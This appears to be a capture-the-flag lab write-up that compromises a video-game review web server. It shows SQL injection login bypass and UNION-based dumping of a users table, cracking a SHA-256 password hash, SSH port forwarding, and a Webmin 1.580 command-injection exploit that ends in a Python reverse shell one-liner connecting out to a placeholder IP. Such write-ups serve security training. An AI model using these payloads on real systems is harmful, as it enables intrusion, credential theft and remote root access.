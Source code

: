 # Enumeration

### Nmap scan : 

| PORT        | STATE SERVICE REASON | VERSION                                                                     |
|-------------|----------------------|-----------------------------------------------------------------------------|
| 22/tcp open | ssh                  | syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0) |
| 80/tcp open | http                 | syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))                               |

### WEB

There is a web server running on the port 80.
Where we can a basic webpage but with a login form.
We can try if it is vulnerable to sql injections with : "' OR 1=1 #--"
Using it in the username section, and with any passwords, we can login and get access to /portal.php

# SQL Injection

We face an application that can retrieve informations about video games reviews.
Maybe it is also vulnerable to sql injections.
If we enter "'", this throw an error : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1 
The form is vulnerable to some sql injection.

## Without sqlmap

First, we need to know the number of columns used in this form with a UNION SELECT.
> ' UNION SELECT NULL#--

Throw an error
> ' UNION SELECT NULL,NULL#--

Throw an error
> ' UNION SELECT NULL,NULL,NULL#--

Is valid

So we know that there is 3 columns.
We will try to display something in thoses columns :
> ' UNION SELECT 'a','b','c'#--

On the web page, we can see that only b and c are displayed.

Now we need to now the databases existing.
> ' UNION SELECT 'a',schema_name,NULL FROM information_schema.schemata; #--
Return :

information_schema	
db	
mysql	
performance_schema	
sys

Let's find the tables of the db database.
> ' UNION SELECT 'a',TABLE_NAME,NULL FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE' AND TABLE_SCHEMA='db' #--

Which retrieve :
post	
users

Maybe the users table contain usernames and password.
We will need some try to guess the rows of the user table because "username" exist but not "password".
After some tries, we can find :
>  'UNION SELECT 'a',username,pwd from users #--

agent47	ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

### With sqlmap

We will capture a request to the form using burp suite, then saving this request.
Once done, let's feed sqlmap with our request.

> sqmap -r request.txt --dbms=mysql --dump

| pwd                                                              | username |
|------------------------------------------------------------------|----------|
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |

# Bruteforce the hash

When passing the hash in the hash-identifier utiliy, we get this result :
Possible Hashs:
[+] SHA-256
[+] Haval-256

We can try to bruteforce this hash using JohnTheRipper
> john pass.hash --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-SHA256

videogamer124    (?) 

So now we know that agent47:videogamer124

# Port forwarding

Using :
> ss -tulnp

We can this that there is a service running on port 10000 that we can't access from outside of the host.
We will use a local port forwarding to expose the service.

On our host :
> ssh -L 10000:localhost:10000 agent47@<ip>

# Root

When navigating to : localhost:10000
We get to a Webmin page

On the SSH connection,we can find in the /etc/webmin a file called version which tell us :
1.580

We can login to the webmin using the previous creds.
Searching online, we can find an Msf module for this version.
https://www.exploit-db.com/exploits/21851

We can also use manually exploit.
It's explain in the msf exploit that if we access /file/show.cgi/bin/afnafnafn| command |
we can download a file with the result of the command we put, and the command is executed as root.

We can manage to get a shell using :
> /file/show.cgi/bin/dd|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("IP",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'|





